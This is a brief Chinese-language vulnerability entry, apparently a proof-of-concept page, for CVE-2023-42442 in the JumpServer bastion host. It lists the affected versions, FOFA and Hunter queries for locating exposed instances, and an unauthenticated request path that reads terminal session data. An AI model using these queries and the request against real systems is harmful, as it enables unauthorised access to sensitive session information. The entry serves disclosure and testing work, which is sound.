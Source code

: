 # JumpServer未授权漏洞

## CVE-2023-42442

## 影响版本
3.0.0 <= JumpServer <= 3.5.4

3.6.0 <= JumpServer <= 3.6.3

## fofa
```
icon_hash="-1162630024"
```

## Hunter
```
app.name="JumpServer"
```
## POC

JumpServer 是一款开源的堡垒机。 在JumpServer受影响版本中，由于/api/v1/terminal/sessions/接口没有添加权限认证，未授权的攻击者可以通过访问/api/v1/terminal/sessions/?limit=1，获取堡垒机terminal的session信息
```
/api/v1/terminal/sessions/?limit=1
```

